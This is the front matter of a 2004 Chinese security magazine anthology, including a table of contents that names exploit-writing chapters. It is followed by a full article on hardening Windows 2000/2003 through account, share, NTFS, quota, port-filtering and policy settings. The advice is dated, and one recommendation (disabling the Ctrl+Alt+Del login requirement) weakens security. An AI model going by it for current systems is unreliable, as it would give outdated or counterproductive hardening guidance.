# 黑客防线2005精华本（上）

---

## 黑客 2005 精华集萃（上册）

《黑客防线》编辑部 编

### 奉献中国6大原创精品黑客技术专题  
## 汇聚全年技术焦点

- 300个超过1200MB精品黑客动画
- 手把手教你攻防技术
- 200篇精选实战文章
- 独家黑客技术整合

附双光盘

人民邮电出版社  
POSTS & TELECOM PRESS

## 黑客防线 2005 精华集萃本（上册）

《黑客防线》编辑部 编

人民邮电出版社

## 图书在版编目（CIP）数据

《黑客防线》2005精华本／《黑客防线》编辑部编．  
北京：人民邮电出版社，2004.12  
ISBN 7-115-12882-0

- I. 黑...
- II. 黑...
- III. 计算机网络－安全技术
- IV. TP393.08

中国版本图书馆CIP数据核字(2004)第116365号

## 内容提要

《黑客防线2005精华奉献本》是国内最早创刊的网络安全类媒体《黑客防线》总第37期到第48期的精华文章摘要。杂志理念“在攻与防的对立统一中寻求突破”完美地体现在本书中。全书按攻防对立的关系，分为上下两册（本册为上册），并附带2张包含1200M安全技术录像的光盘。文章通俗易懂，图文并茂，在每个关键知识点和细节上还有详细的“小知识”“小提示”，方便大家理解和阅读。在栏目划分上，选取了网络安全技术上最热门、读者最喜欢的各大栏目，典型的有脚本攻击／脚本攻击防范、漏洞攻击／漏洞攻击防范、黑兵器库／黑器攻击防范等，并增加了全新的专题文章，同时选取国内首创的“新手学溢出”栏目中的精品文章，非常适合各层次读者学习！  
本书适合各高校在校生、网络管理员、安全公司从业者、黑客技术爱好者阅读。

## 黑客防线2005精华奉献本（上册）

| 项目 | 内容 |
|---|---|
| 编 | 《黑客防线》编辑部 |
| 责任编辑 | 魏雪萍 |
| 出版发行 | 人民邮电出版社发行　北京市崇文区夕照寺街14号A座(100061) |
| 读者热线 | 010-62141360 |
| 印刷 | 中煤涿州制图印刷厂 |
| 经销 | 全国各地新华书店 |
| 开本 | 782×1092　1/16 |
| 印张 | 36 |
| 字数 | 3800千字 |
| 版次 | 2004年12月第1版　2004年12月北京第1次印刷 |
| ISBN | 7-115-12882-0／TP·4327 |
| 定价 | 全套定价：35.00元（附双光盘） |

本书如有印刷质量问题（错页、掉页、残页等），请您与我们联系，我们负责调换。  
联系电话：010-62141446　E-mail：yougoubu@hacker.com.cn  
图文版权所有，未经同意不得转载、翻印。

## 致读者的话

黑客一词，源于英文Hacker，原指热心于计算机技术、水平高超的电脑专家，尤其是程序设计人员，他们发现系统漏洞和各种程序错误，并设法修补这样的漏洞。从原来的定义来说，黑客无疑是网络中最让人觉得神秘且崇高的人群。但世界上没有绝对好的东西，黑客也是这样。信息高科技时代的到来，给人类各方面发展都带来了前所未有的巨大进步，但同时也带来了前所未有的巨大灾难。黑客这一神秘群体，由于掌握了核心的技术、最有破坏力的漏洞，所以渐渐分离出来两个部分：一部分是为网络安全而奉献精力的真正黑客，而另一部分是在网络上为所欲为、拥有强大破坏力、行踪神秘的Cracker！

我国互联网业界风起云涌，网络从最初的新奇，到今弥散到人们的日常生活，它改变了传统的信息消费渠道，抢占了新闻受众，影响着大众舆情……面对汹涌而来的信息浪潮，网络的脆弱性也在经受着无数黑客Cracker的一次次考验和打击。面对这样的转变，为了普及广大网友的网络安全常识，提高网络管理员的技术水平，《黑客防线》应运而生——一本崭新的集网络安全专业技术、专业资讯为一体的专业杂志面世了。

作为中国最早的网络安全类杂志，走过了五年的风风雨雨，一直以“在攻与防的对立统一中寻求突破”为理念的我们，在普及网络安全知识的同时，针对网络上黑客攻击事件、网络漏洞等方面策划出最快、最新、最权威的技术文章奉献给大家。同时也以为“黑客”正名为己任，告诉我们的每个读者，什么是真正的黑客，什么是黑客精神，什么是Cracker。

在黑客防线成长的过程中，通过我们不断推出的攻防实验室，非常多的朋友学习到了很多实用的网络安全攻击、防御知识，虽然不可避免地存在一些缺陷，但我们一直在积极地听取大家的意见，每一轮都改进一些，希望能更适合大家的要求。同时，很高兴地看到大家通过实验室而让技术得到成长，而且每个朋友的成长几乎都能带动周围一圈人意识的改变，这样才真正地体现出了“攻防对立统一”的精髓。中国的网络安全就是靠我们每个人的努力才能获得成功，就得靠每个团体中每分子的努力才能成功！

眼下互联网上的攻击事件越来越多，各大网络管理员、系统维护者都在为入侵防护而头疼，生怕自己一不小心就让虎视眈眈的“黑客”进入了服务器。其实管理员们根本没必要这样担惊受怕，要知道任何攻击技术都不是万能的，每种入侵方法都有它自己针对的漏洞，如果网管们能掌握这样的攻击技术，本身就是一名出色的善意“入侵者”，那在知己知彼的情况下，防护不就变得非常简单了吗？这也是《黑客防线》一直倡导的“在攻与防的对立统一中寻求突破”理念的最终体现，而我们的攻防实验室就是为了深入这一理念而开展的活动。

希望每个喜欢入侵技术、每个喜欢安全技术的朋友都能在我们的实验室中学到自己需要的知识……在此前提下，根据各读者的强烈建议，我们特别精选了200篇经典攻防技术文章，特约了6大顶尖技术专题，收集了300个全程演示的攻防录像，融合在《黑客防线2005精华奉献本》里，以便喜欢黑客技术的朋友们系统地学习最新的网络安全技能，做好最强的防护系统。

最后，我们再次感谢广大读者对我们的支持，感谢人民邮电出版社同我们的合作，使更多读者可以看到我们的图书，让国内更多的人了解到黑客技术，并借此来提高国内网络安全的整体水平。同时，有任何疑问欢迎来我们论坛发帖讨论，地址是 http://www.hacker.com.cn/newbbs，我们的编辑和黑客爱好者们将在第一时间为您答疑，帮助您解决安全故障和系统防护问题，共同创造一片纯净的中国互联网空间！

## 黑客防线2005精选奉献本 目录（上册）

## 最新奉献

- 被人忽略的Windows强大安全功能 …… 1
- 攻防对抗第一步——信息收集 …… 7
- 透析Linux日志查入侵 …… 11

## 专题策划

- IPv6 下一代互联网和移动通信的灵魂 …… 14
- Windows 2000系统加固不求人 …… 20
- 你也能做安全专家——将个人防火墙的功能发挥到极致 …… 32
- WinNT服务器权限与黑客的较量 …… 36
- 构建Windows 2003堡垒主机——Windows 2003服务器网络组建、安全管理全攻略 …… 42
- 利用Linux组建小集群实现负载平衡 …… 48
- 记一次真实的安全检测——服务器被入侵后的日志分析及系统防护 …… 54

## 漏洞攻击防范

- 安全配置IIS防止数据库下载 …… 60
- 防范Workstation Service远程溢出漏洞 …… 61
- 抵抗Linux kernel do_brk()参数边界检查不充分漏洞 …… 62
- MHTML文件重定向漏洞防范策略 …… 63
- IMail漏洞防御 …… 64
- 0W补丁，让Linux内核更安全 …… 66
- 增加IVAIL系统SMTP的安全性 …… 67
- Defence：以太网第二层协议 …… 69
- 一步步加强My SQL的安全性 …… 70
- 命令行下IPsec也疯狂 …… 73
- 开源项目防范CVS漏洞 …… 77
- 再谈ADODB.Stream漏洞防护 …… 79
- 切断侵入Windows 2003的通路 …… 82
- 打造专业级软件防火墙 …… 83
- 验证码能实现验证功能吗？ …… 87
- 战争由踩点点燃，武装从Banner开始 …… 90
- ACL扩展FreeBSD访问控制策略 …… 91
- 防范局域网内监听有妙招 …… 94
- 补丁管理一点通 …… 96

## 脚本攻防专题

- 脚本攻击防范策略完全篇（上） …… 99
- 脚本攻击防范策略完全篇（下） …… 101
- 编写安全的ASP代码 …… 105
- 防御伪造图片跨站脚本攻击 …… 107
- Access数据库安全攻防 …… 109
- 基于ASP.NET与Access的安全防护 …… 111
- BBSXP论坛查漏补缺 …… 114
- 也说跨站脚本攻击的隐蔽——如何防止Flash跨站攻击弹出IE窗口 …… 115
- 打造抵御SQL注入攻击的MS SQL服务器 …… 116
- 搜索引擎能奈我何？ …… 118
- 表单……又见表单 …… 119
- 用JavaScript加密数据库 …… 121
- ASP.NET中输入检查函数的轻松构造 …… 122
- 防数据库下载终极技术 …… 123
- 细心构造安全的PHP系统 …… 125
- PHP的简要历史 …… 128
- JavaScript加密解密终极指南 …… 129
- 今天，你数据被删了吗？ …… 131
- 两步建立安全ASP个人主页 …… 133
- 漠漠孤云尽成雨——浅谈CGI脚本安全 …… 135
- 让服务器透明的错误ASP程序 …… 138

## 黑客防御前沿

- 用MRTG在IIS 6.0上实现入侵检测 …… 142
- Websoft网络防护盾 …… 143
- 网络管理之“清晰可见” …… 145
- Regsnap，完全监控你的系统 …… 147
- IIS Lockdown + URLScan = 保障IIS安全 …… 149
- 让“黑客守卫者”远离我们 …… 153
- RootKit的清除与检测 …… 154
- 突破防火墙的利器——隧道防御 …… 155
- EMCO Eventlog让网管更轻松 …… 157
- RootKit安装隐藏与侦查 …… 158
- 巧用Agnitum Outpost阻断扫描与广告 …… 159
- 巧妙防止CHM反编译 …… 160
- IPC漏洞击溃动网7 …… 160
- 终极后门Hxdef100覆灭记 …… 161

## 网管之家

- 七步构建安全的Serv-U FTP服务器 …… 164
- 利用网络负载平衡对抗DoS …… 167
- Solaris 8 x86上实现和Windows平台安全共享 …… 171
- Windows 2003.net IPsec配置全攻略 …… 173
- 在Linux上实现包过滤防火墙 …… 175
- 构建基于SSH验证的CVS服务器 …… 178
- IDS + Honeypot = 骇客克星 …… 180
- 打造超级安全的Windows 2003终端服务 …… 183
- 文件系统安全巧设置 …… 186
- “诱敌深入”实战演习 …… 190
- 用Snort巧妙检测SQL注入和跨站脚本攻击 …… 194
- ISA Server 2000巧架对外的HTTP代理 …… 196
- CMAK自定义VPN客户端软件 …… 198
- 轻松创建Windows 2003 DNS服务器 …… 199
- 让Linux可以遥控Windows …… 201
- 用ISA Server 2004封杀IP盗用 …… 202
- Samba沟通FreeBSD与Windows文件共享 …… 205
- 架设从Windows到Linux的PPTP VPN …… 208

## 新手学漏洞

- 菜鸟版Exploit编写指南 …… 212
- 《菜鸟版Exploit编写指南》之二——lsasrv.dll远程溢出 …… 216
- 菜鸟版Exploit编写指南之三——Serv-U FTP漏洞旧饭重炒 …… 218
- 菜鸟版Exploit编写指南之四——Hacker + Cracker + Sniffer的综合利用 …… 222
- 菜鸟版Exploit编写指南之五——在Windows下对比学习Linux堆栈溢出 …… 225
- 菜鸟版Exploit编写指南之六——巧妙分析JPEG处理漏洞 …… 229
- 带你进入Windows缓冲区溢出的神秘地带 …… 233
- 初探缓冲区溢出攻击 …… 235
- 堆栈溢出攻与防 …… 236
- 定制特殊的ShellCode …… 238
- ShellCode变形大法 …… 240
- 定制自己的ShellCode之二 …… 243
- 读菜鸟版Exploit编写指南有感 …… 245
- Windows下堆溢出初步 …… 247

## 被人忽略的Windows强大安全功能

文/图 单长虹

相信大家对于Windows 2000系列的操作系统安全性，都有着自己的认识，也听很多人说Windows 2000是多么的不安全。对于上面这种观点，我倒是不敢苟同。跟Windows系列系统打交道也有6年的时间了，从最初的Windows 95/98，到现在的Windows 2000/2003，笔者对这些操作系统的熟悉程度也经历了一个从陌生到熟悉、从认识浅显到认识深刻的过程，对于熟悉Windows系统的人来说，大家应该走过了一段艰难而相似的历程。

前几天在给学生上第一堂课的时候，我首先让大家讲了一下各人对于Windows 2000操作系统的认识，几乎每个人都说Windows系统是多么的不安全，有那么多的漏洞。在他们看来，Windows 2000简直是罄竹难书，似乎微软开发出了这个优秀的操作系统已经犯下了滔天罪行。在听完了大家对Windows的批判之后，我说了这么一句话：我只想告诉你们，所有说Windows不安全的人，只能说你对Windows了解不深，你不是一个Windows的高手。

下面，我将结合事前预防、事中检测和事后审查来跟大家一起探讨一下Windows 2000/2003系统的安全维护问题。当然，我谈到的某些内容，可能已经有人提过；但是，为了给读者一个总体的把握，无论是别人说过的还是没有说过的，我都要说出来。

我们在做系统的时候，最看重的就是事前预防，只有预防工作做得好，才不会造成很大的损失，才能够有效地避免安全问题的出现。事前预防的方面很多，下面我们就来一一列举，其中，我们也夹杂了访问检测和事后审核的应用技术。

### 用户安全管理

用户的管理一直是一个令人头痛的问题，在Windows 2000以前微软的操作系统中，曾经出现过账户，但是都没有在实质上起到什么作用，并不能够真正控制系统的访问，所以也谈不上什么用户安全性。Windows 2000中虽然对用户的安全性作了很多有益的工作，但是要想达到真正的安全，还要做一些安全配置工作。

通常情况下，系统中只要一个管理员账户，将管理员账户的密码设置得足够复杂，只要符合本地安全策略中的密码复杂策略基本上就可以了，将Guest账户禁用。另外最好创建一个隶属于Power Users组的用户，让这个用户负责日常的普通维护工作，并且也要设置足够复杂的密码，通常情况下只要有字母、数字和特殊字符，密码长度大于7就可以了。对于目前的针对密码破解的软件，这个复杂度是无能为力的。在本地安全策略中做如图1、图2、图3的设置。

将Repair中的SAM（Security Account Management，安全账户管理）文件删除，防止被攻击者盗走SAM进行密码破解。另外，需要做的就是要经常更改用户密码，最好在一段时间内将所有账户的密码更改掉。

### 共享的安全管理

Windows 2000系统中，为了管理员远程管理计算机的方便，每次计算机启动都会自动打开如admin$、ipc$等默认共享，这些共享虽然对于偶尔的远程管理提供了方便，但是却对Windows 2000的安全构成了极大的威胁，尤其是ipc$共享，很多黑客软件都是使用了admin$上传服务器端的软件，然后控制端和服务器端使用ipc$的管道技术进行通信。删除ipc$共享，不会影响本机的正常功能。所以，除非必要，最好将本机的默认共享全部删掉，这个工作我们可以创建一个批处理文件来完成，让这个批处理文件每次开机的时候自动启动。这里我们将批处理文件命名为sharedelete.bat，将这个文件丢到System32目录下，然后在注册表的`HKEY_LOCAL_MACHINE\software\Microsoft\Windows\currentversion\run`下面增加一个键值Deleteshare，内容为指向sharedelete.bat的全路径名。

假设本机的分区有C、D、E、F，那么批处理文件的内容如下：

```bat
net share c$ /delete
net share d$ /delete
net share e$ /delete
net share f$ /delete
net share admin$ /delete
net share ipc$ /delete
```

这里要严格按照格式来写，该有空格的地方必须出现空格，不用空格的地方不可随便加上空格，如`/delete`之间不存在空格，如果加上了，就会出错，从而不能够将共享删除。

如果用户在实际操作中需要使用共享，可以在需要的时候自己添加，或者使用很难猜到的隐含共享名称进行共享，比如用户可以创建如下一个文件来创建如系统的隐含共享一样效果的共享，但是都是根据自己的喜好来定义的名称，外人很难猜到。这里我还是使用批处理文件来提供共享。文件名称为shareadd.bat，内容如下：

```bat
net share rtatv_c$=c:
net share rtatv_d$=d:
net share rtatv_e$=e:
net share rtatv_f$=f:
net share rtatv_admin$=c:\winnt
```

然后要做的工作就是像上面一样，让这个批处理文件在开机时自动运行就可以了。另外，在共享时，要注意共享许可的控制，只要分配给用户他需要的合适的许可，不要给得太高，尽量给只读。

### NTFS权限控制

Windows 2000给我们提供了非常好的文件访问控制机制，这就是NTFS。然而在实际中还是有很多管理员在使用FAT32，不知道他们这么做为了什么，难道是为了在计算机上装上一个Windows 98的系统，然后能够让98也来访问这些分区吗？想想也只有这么解释才能想得通。所以，这里我觉得还是很有必要来说说NTFS的权限控制问题。先来看一下NTFS中的文件许可。

- **READ（读）**：读取文件，查看文件属性、文件所有者和文件许可。
- **WRITE（写）**：改写文件，改变文件属性，查看文件所有者和许可。
- **READ & EXECUTE（读取和执行）**：除了具有读的许可外，还可执行文件。
- **MODIFY（修改）**：除了具有WRITE和READ & EXECUTE许可外，还可以修改和删除文件。
- **FULL CONTROL（完全控制）**：除了具有以上许可外，还可以修改许可，获取文件的所有权。

对于文件夹的许可，除了具有以上的许可外，还有一条，就是“列出文件夹目录”，它允许用户可以查看目录。比如对于本机的很多目录就可以设置为只写，而不给提供可执行以上的许可。这种最高的许可可以仅仅保留给管理员用户使用，其他用户需要时再予以分配就可以了。尤其对于配置为Web服务器的机器，更加要注意对于可以上传文件的目录的权限控制，对于上传文件的目录一定要控制为不可执行。另外对于数据库所在的目录，也控制为不可执行，这样就可以从某种程度上来达到一定的安全性。

还有如比较重要的日志文件，如`c:\winnt\system32\logfiles`目录的许可也要控制为不可删除，只允许读取写入。对于本机的安全账户管理文件SAM的许可可以控制为不允许除了管理员组和Power Users组中的成员进行访问，这样就可以从某种程度上杜绝数据的非法读取。

NTFS还支持文件的加密功能，对于重要的文档和数据，最好使用加密功能，这样加密了的数据，其他用户（除了Administrator）根本都无法读取。这样，即便是别人拿走了你的硬盘，你也不用害怕数据被读取出来了。不过，这个功能一定要慎用，因为一旦你的系统崩溃了，也就意味着你的数据从此就没有人可以读取出来了。所以在做加密的同时，一定不要忘记将数据备份到另外的移动存储设备上，并且安全保管好，以免数据丢失。加密了的数据文件的颜色会有变化，这都属于正常反应，用户大可不必惊慌失措，可以泰然处之。加密功能见图4所示。

### 磁盘配额跟踪功能

配额是指卷的磁盘配额跟踪以及控制磁盘空间的使用，简单点说就是限制用户可以在卷上使用多少空间。系统管理员可将Windows配置为：用户超过所指定的磁盘空间限额时，阻止进一步使用磁盘空间和记录事件；当用户超过指定的磁盘空间警告级别时记录事件。启用磁盘配额时，可以设置两个值：磁盘配额限…度和磁盘配额警告级别。该限制指定了允许用户使用的磁盘空间容量，警告级别指定了用户接近其配额限度的值。例如，可以把用户的磁盘配额限度设为 50MB，并把磁盘配额警告级别设为 45MB。这种情况下，用户可在卷上存储不超过 50MB 的文件。如果用户在卷上存储的文件超过 45MB，则把磁盘配额系统记录为系统事件。

可以指定用户能超过其配额限度。如果不想拒绝用户访问卷但想跟踪每个用户的磁盘空间使用情况，启用配额但不限制磁盘空间使用将非常有用。也可指定不管用户超过配额警告级别还是超过配额限度时是否要记录事件。

启用卷的磁盘配额时，系统从那个值起自动跟踪新用户卷使用。但是，磁盘配额不应用到现有的卷用户上。可以通过在“配额项”窗口中添加新的配额项将磁盘空间配额应用到现有的卷用户上。

可以在本地卷和网络卷上启用配额，但是只能在从卷的根目录共享以及用 NTFS 文件系统格式化的卷上启用配额。要支持磁盘配额，磁盘必须用 Windows 2000 中的 NTFS 版本格式化……如果不是本地计算机上的 Administrators 组的成员，那么卷的属性页上将不显示“配额”选项卡……

在使用配额的时候，要么只能对单个用户一个一个做，要么只能对所有用户做，不能一次配置多个用户。

## 配置方法如下

- 1. 针对所有用户

在卷上（逻辑分区）点击右键/属性/配额，如图 5 所示。这样做了以后，当有新的用户来访问这个卷时，最多只能使用 200MB 的空间，当它使用的空间达到 199MB 时，将进行警告，当满 200MB 时，将拒绝它使用多余的空间……在对系统分区采取此措施的时候一定要注意，限制的空间不可过小，否则将无法登录进系统。



图5

- 2. 对单个用户配额

在图 5 所示的页面中，点击配额项，打开如图 6 所示的窗口。在“配额”菜单中，选择“新建配额项”，即可对本机的用户进行配额限制。然后用户便可按提示配置，很简单的，不多说了。



图6

删除或者停止不必要的服务如图 5 所示。Windows 2000 中的很多漏洞问题都是由各种各样的服务引起，所以可以这样说，开启的服务越多，计算机就越不安全。

在计算机中，通常除了对服务器必需的服务之外，这些服务是系统正常运行所必须使用的，如：Plug and Play，Event Log，Remote Procedure Call，Security Accounts Manager，Windows Management Instrumentation，WMI Driver Extensions，Protected Storage，Logical Disk Manager，Network Connections。其他服务可按需设为手动启动。

## 在网络连接上作安全配置

网络连接上的安全配置往往被人们所忽视，但是网络连接上的配置更加重要，因为它控制着网络的出入口，也是兵家必争之地。下面我们一起来看一看。

禁用除了 TCP/IP 协议之外的如 NetBIOS 协议和 IPX/SPX 协议。NetBIOS 协议是微软以前版本的操作系统之间的通信协议；IPX/SPX 主要用于 NetWare 环境，不存在 NetWare 网络环境时可以卸载。

另外，对于不需要打开的端口，可以全部关闭掉，只打开自己需要的端口，如 web 服务器可以只开 TCP 的 80 端口，方法如下。

- 1. 右键点击“网上邻居”，打开“属性”页。在你向外提供服务的某个连接上面点击右键，打开“属性”页，双击“Internet 协议（TCP/IP）”，在打开的对话框中选择“高级”按钮，打开“选项”页，双击“TCP/IP 筛选”，选中“启用 TCP/IP 筛选”。
- 2. 三个项目，分别是“TCP 端口”“UDP 端口”“IP 端口”，在这里，你可以根据自己的需要，启用相应的协议端口。这样，未被启用的端口将被全部关闭。

### 在 Windows 2003 中使用软件限制策略

使用软件限制策略，可通过标识并指定允许运行的软件来保护计算机环境免受不信任软件的侵袭。可以为组策略对象（GPO）定义“不受限的”或“不允许的”的默认安全级别，从而决定是否在默认情况下允许软件运行。通过为特定软件创建软件限制策略规则，可以相对于默认安全级别做出例外安排。

### 简单配置如下

- 1. 在“本地安全策略”中，“软件限制策略”的位置如图 7 所示。



- 2. 将软件限制策略应用到 DLL 文件。在图 7 所示的窗口中，右击“强制”，选择“属性”，会弹出一个对话框。默认情况下，软件限制策略不会应用到 DLL 文件，如果要对 DLL 文件进行限制，可以如图 8 所示操作。
- 3. 通常情况下，我们要求免除对管理员的软件限制策略，如果您要对管理员进行限制，可以在图 8 中选择“将软件限制策略应用到”“所有用户”即可。



不过，做了软件限制策略之后，确实在允许软件的执行方面是很安全了，但是对于被限制的用户来说，当要打开软件的时候，总会出现提示，让用户输入不受软件限制策略限制的用户名和密码，这对于非服务器来说是相当不方便的。但是，对于服务器来说，这样的限制是可以的，因为服务器上用户在使用软件的时候是很少的。

## 用本地安全策略增加系统安全性

为了达到更高的安全性，需要在 本地安全策略 -> 本地策略 -> 用户权利指派 里面做一些设置，下面我们就来看一下。对于【从网络访问此计算机】这一项，拒绝的是使用 UNC 路径的访问方法，一般情况下可以不允许访问，这里可以清空。

- 【从远端系统强制关机】该项也可以清空，这样就不允许用户从远程关闭机器。
- 【更改系统时间】这一项我觉得完全可以不允许任何人来更改，因为一旦时间设置准确以后，根本没有必要更改。这样可以杜绝攻击者修改时间，从而影响系统记录日志的时间，使管理员不能够对日志做出正确的分析。
- 【关闭系统】这一项对于服务器来说，很多是不能随便关闭的，所以在服务器上这一项可以拒绝任何人关闭系统。如果需要关闭，首先在安全策略中更改过来之后就可以关闭了。
- 【拒绝从网络访问这台计算机】这一项可以设置为 Everyone 组，这样就不允许任何人使用 UNC 路径来访问计算机，从而避免了 NetBIOS 协议带来的威胁。
- 【取得文件或其他对象的所有权】这一项默认为 Administrators 组，这里我们最好将这一项设置为只允许 Administrator 用户一个人来做。
- 【磁盘配额】这一项从我们前面的描述来看也是非常重要的，默认是允许 Administrators 组，我们也是参照上面的做法，只允许 Administrator 一个人就可以了。
- 【装载和卸载设备驱动程序】这一项也要进行限制，只允许 Administrator 用户一个人来操作就可以了。
- 接下来，在【本地策略】的【安全选项】里，做如下操作。
- 【对全局系统对象的访问进行审计】这一项启用，就可以对全局系统对象进行审计了。
- 【防止用户安装打印机驱动程序】这一项启用，这样就可以禁止用户企图利用输入法漏洞进入系统。
- 【禁用按 CTRL+ALT+DEL 进行登录的设置】这一项启用。
- 【登录屏幕上不要显示上次登录的用户名】这一项启用，就可以防止泄露用户名。

### 使用二次登录进行计算机管理

前面我们谈到，平时登录服务器不要随便使用具有管理员权限的用户，这会造成很大的威胁。那么，这样对于一些使用管理工具或者需要配置服务的操作，似乎每次都要注销当前用户，然后使用具有管理权限的用户来登录到系统。如果 Windows 2000 笨到这个程度，我们就没有使用它的必要了。

针对这种应用，我们有必要使用二次登录。方法如下。我们拿“计算机管理”来说，可以在上面点击鼠标右键，在弹出的对话框中，选择“运行方式”，会弹出如图 9 所示的对话框。然后在里面输入具有管理员权限的用户名和密码，回车之后，就可以做管理工作了。

